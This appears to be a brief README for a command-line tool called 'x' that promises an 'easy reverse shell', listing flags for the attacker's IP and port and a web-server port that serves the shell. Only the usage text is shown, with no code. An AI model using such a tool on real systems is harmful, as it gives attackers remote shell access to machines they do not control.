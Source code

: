 # x
Get an easy reverse shell.
```[!] usage ./x -lhost <attacker_ip> -lport <attacker_port> -listen <http_port>
  -lhost string
        ip to send shell
  -listen string
        port that is used for this web server (default "8000")
  -lport string
        port to send shell
```
